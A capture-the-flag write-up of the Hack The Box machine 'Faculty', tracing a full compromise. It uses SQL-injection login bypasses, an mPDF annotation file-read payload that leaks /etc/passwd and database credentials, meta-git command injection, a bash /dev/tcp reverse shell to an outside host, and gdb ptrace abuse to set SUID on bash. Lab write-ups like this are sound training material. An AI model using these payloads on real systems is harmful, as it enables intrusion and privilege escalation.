








# Faculty

## Nmap Scan

```bash
# Nmap 7.93 scan initiated Tue Mar 14 18:40:24 2023 as: nmap -p22,80 -sCV -oN Targeted 10.10.11.169
Nmap scan report for 10.10.11.169
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9418ce5544d6f14987616e7292d0216 (RSA)
|   256 4375103ecb78e9520eebcf7ffdf66d3d (ECDSA)
|_  256 c11caf762b56e8b3b88ae969737be6f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

There’s a redirect on port 80 to `faculty.htb`. I’ll run a fuzz for interesting subdomains, but not find anything.
Visiting the site by IP redirects to `faculty.htb` which redirects to `faculty.htb/login.php`, and presents a form:

<center></center>

Guessing random IDs doesn’t work:

The site is clearly running on PHP based on the source and the file extensions. The HTTP headers don’t give much more information.
Both login POST requests go to `/admin/ajax.php`. The faculty login has the GET parameter `action=login_faculty` and the admin login has `action=login`. It looks like this app is using one PHP file to handle all AJAX (JavaScript) requests.

## Shell as gbyolo

I’ll try a simple login bypass at the form at `/login.php`. Submitting `' or 1=1;-- -` works:

<center></center>

It logs in as John C Smith, which is likely the top user returned from the injected query. There’s not much interesting I can do from within here.

### Admin Login Bypass

From the login form at `/admin/login.php`, I’ll try a username of `' or 1=1;-- -` and any password, and it logs in as well as the administrator user:

<center></center>

### Local File Inclusion

Many of the pages have a button to download the current info as a PDF. For example, on “Course List”:

<center></center>

Clicking on it redirects to a URL like `http://faculty.htb/mpdf/tmp/OKMLDkBmRPcCFe4AEb21xgzZYI.pdf` which presents a PDF:

<center></center>

Looking at the metadata about the PDF (in Firefox click `>>` > “Document Properties”), it shows the “PDF Producer” as mPDF 6.0

On clicking the PDF button, there’s a POST request to `/admin/download.php`:

```bash
POST /admin/download.php HTTP/1.1 Host: faculty.htb User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0 Accept: */* Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded; charset=UTF-8 X-Requested-With: XMLHttpRequest Content-Length: 2612 Origin: http://faculty.htb Connection: close Referer: http://faculty.htb/admin/index.php?page=courses Cookie: PHPSESSID=kqqn3uld2as77u1mpil4ckv6tk 
pdf=JTI1M0NoMSUyNTNFJTI1M0NhJTJCbmFtZSUyNTNEJTI1MjJ0b3AlMjUyMiUyNTNFJTI1M0MlMjUyRmElMjUzRWZhY3VsdHkuaHRiJTI1M0MlMjUyRmgxJTI1M0UlMjUzQ2gyJTI1M0VDb3Vyc2VzJTI1M0MlMjUyRmgyJTI1M0UlMjUzQ3RhYmxlJyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI1M0NiJTI1M0VJbmZvcm1hdGlvbiUyQlRlY2hub2xvZ3klMjUzQyUyNTJGYiUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI[snip]
```

The big blob of base64 in the original POST request is HTML that’s double URL encoded and then base64-encoded, which I can figure out by decoding it in [CyberChef](https://gchq.github.io/CyberChef/)

<center></center>

There’s an [issue on the mPDF GitHub](https://github.com/mpdf/mpdf/issues/356) where the user h0ng10 points out that mPDF can be used to read files from the local system:

>During a security test I was able to inject HTML code into a PDF document that was generated by mPDF. By abusing the tag, it was possible to extract sensitive files/source code from the application backend.
>The following HTML example includes the file “/etc/passwd” into the generated PDF document. 
>`The PDF is dark and full of attachments <annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />`
>I recommend that the support for the tag should be disabled by default as many users don’t know of the possible impact that this feature can have.
>These are mPDF and PHP versions I am using
> 
> mPDF 6.0

I’ll take the POC from the GitHub issue and encode it, URL -> URL -> base64:

<center></center>

I’ll send the POST request to `/admin/download.php` to Repeater, and replace the `pdf` argument in the body with that encoded payload. On sending it, the page returns the PDF name:

<center></center>

Grabbing the PDF, it has the text from the payload.

Clicking on the paperclip shows it has an attachment named `passwd`:

<center></center>

Clicking on that downloads the `/etc/passwd` file from Faculty:

```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin ...[snip]... gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin developer:x:1001:1002:,,,:/home/developer:/bin/bash usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

I’ll note the users on the box with shells and ids > 1000, gbyolo and developer.

I’ll need to check out `admin_class.php`.

This file starts off getting the connection to the database:

```php
<?php session_start(); ini_set('display_errors', 1); Class Action { private $db; public function __construct() { ob_start(); include 'db_connect.php'; $this->db = $conn; } function __destruct() { $this->db->close(); ob_end_flush(); } ...[snip]...
```

Right away I want to read `db_connect.php`, as it will likely have creds. It does:

```php
<?php $conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

## Shell as developer

gbyolo’s home directory is relatively empty:

```bash
gbyolo@faculty:~$ ls -la 
total 36 
drwxr-x--- 6 gbyolo gbyolo 4096 Jun 22 09:03 . 
drwxr-xr-x 4 root root 4096 Oct 24 2020 .. 
lrwxrwxrwx 1 gbyolo gbyolo 9 Oct 23 2020 .bash_history -> /dev/null 
-rw-r--r-- 1 gbyolo gbyolo 220 Feb 25 2020 .bash_logout 
-rw-r--r-- 1 gbyolo gbyolo 3771 Feb 25 2020 .bashrc 
drwx------ 2 gbyolo gbyolo 4096 Oct 17 2020 .cache 
drwx------ 3 gbyolo gbyolo 4096 Nov 10 2020 .config 
drwxrwxr-x 3 gbyolo gbyolo 4096 Jun 22 09:03 .local 
-rw-r--r-- 1 gbyolo gbyolo 807 Feb 25 2020 .profile 
drwx------ 2 gbyolo gbyolo 4096 Nov 10 2020 .ssh
```

```bash
gbyolo@faculty:~$ sudo -l 
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty: 
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User gbyolo may run the following commands on faculty: 
	(developer) /usr/local/bin/meta-git
```

`meta-git` is a command line [NodeJS tool](https://github.com/mateodelnorte/meta-git) for interacting with Git repos, an alternative to the standard `git` command.

[This HackerOne report](https://hackerone.com/reports/728040) shows how to get code execution (not actually RCE since it isn’t remote) via command injection in the `clone` arguments.

To test this, I’ll work out of `/dev/shm` and try the POC from the report:

```bash
gbyolo@faculty:/dev/shm$ sudo -u developer meta-git clone 'bara||touch bara'
[sudo] password for gbyolo:
meta git cloning into 'bara||touch bara' at bara||touch bara
[snip]
gbyolo@faculty:/dev/shm$ ls -l 
total 0 
-rw-rw-r-- 1 developer developer 0 Jun 22 14:55 bara
```

I’ll create a simple reverse shell script in `/dev/shm/shell.sh`:

```bash
#!/bin/bash 
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

Now running that with `meta-git`, it hangs:

```bash
gbyolo@faculty:/dev/shm$ sudo -u developer meta-git clone 'bara||bash /dev/shm/shell.sh'
```

## Shell as root

```bash
developer@faculty:~$ id 
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
```

It’s always a good idea to look for files that developer can access that the previous user couldn’t, which means looking for files in each of these groups. For debug, there’s a single file:

```bash
developer@faculty:~$ find / -group debug 2>/dev/null 
/usr/bin/gdb
```

It’s odd that `gdb` would be in a group like that, but it does fit the group name. The standard permissions don’t show anything special about it, other than only root and members of the debug group can run it:

```bash
developer@faculty:~$ getcap /usr/bin/gdb 
/usr/bin/gdb = cap_sys_ptrace+ep
```

I’ll find a process running as root to attach to with `ps auxww | grep root`. It will fail often, and seem stuck. I’ll get out by entering `ctrl-z` to background `gdb`, and then `kill -9 $(jobs -p)` (often two or three times) to kill background jobs.

For example, I’ll work with the `postfix` process, as it’s a mail server, and likely not critical for this box:

I’ll attach `gdb` to it using the `-p` option to give the PID, and `-q` to prevent a bunch of useless printed stuff

```bash
developer@faculty:~$ gdb -q -p 1655

(gdb) call (void)system("chmod u+s /bin/bash")

developer@faculty:/$ bash -p
bash-5.0# whoami
root
```

Thanks for reading!
